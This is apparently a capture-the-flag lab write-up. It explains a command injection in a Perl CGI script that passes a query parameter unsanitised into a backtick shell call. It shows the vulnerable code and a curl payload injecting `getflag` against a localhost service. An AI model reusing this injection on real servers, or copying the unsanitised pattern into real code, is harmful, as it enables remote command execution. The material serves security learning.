 At the home of the user is present a .pl file :

```perl
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

In Perl, CGI(Common Gateway Interface) is a protocol for executing scripts via web requests
This one is printing the first query parameter x -> $_[0] to the standard output using the built-in echo

During the substitution of the variable $y there is no sanitization
By adding "\`" i can close the backtick command and open and other one "\`"

The final payload is \`getflag\` to execute -> "`echo ` `getflag 2>&1`"

I send it with the curl command (backslash added to stop interpretation of backtick from my own shell):
curl -v http://localhost:4747/?x=\`getflag\`
